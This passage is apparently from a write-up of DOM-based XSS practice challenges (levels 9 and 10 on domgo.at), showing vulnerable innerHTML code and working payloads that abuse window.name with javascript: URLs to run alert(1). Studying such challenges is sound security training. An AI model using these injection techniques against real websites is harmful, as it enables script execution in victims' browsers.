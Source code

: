 **Source**: window.name + location.hash

**Solution**: 
{% highlight javascript lineos %}
<script>
var victim= window.open('https://domgo.at/cxss/example/9#user=javascript', ':alert(1)');
</script>
{%endhighlight%}


In this challenge, 2 values namely window.name and location.hash are combined (both can be attacker controlled) and is written to the DOM using innerHTML. In order to exploit this, we can host a custom HTML page with the above solution and visit it (which can control the window.name property and location.hash property together).



#### Level 10:

{% highlight javascript lineos %}
let urlParts = location.href.split("?");
if (urlParts.length > 1) {
    
    let queryString = urlParts[1];
    let queryParts = queryString.split("&");
    let userId = "";
    for (let i = 0; i < queryParts.length; i++) {
        
        let keyVal = queryParts[i].split("=");
        if (keyVal.length > 1) {
            if (keyVal[0] === "user") {
                
                userId = keyVal[1];
                break;
            }
        }
    }
    if (userId.startsWith("ID-")) {

        userId = userId.substr(3, 10);
        userId = userId.replace(/"/g, "&quot;");
        let windowValueToUse = window.name.replace(/"/g, "&quot;");
        let msg = "<a href=\"" + userId + windowValueToUse + "\">Welcome</a>!!";
        document.getElementById("msgboard").innerHTML = msg;
    }
}
{%endhighlight%}


**Sink**: innerHTML

**Source**: window.name + user (GET parameter)

**Solution**: 
{% highlight javascript lineos %}
<script>
var victim= window.open('https://domgo.at/cxss/example/10?lang=en&user=ID-javascript', ':alert(1)');
</script>
{%endhighlight%}
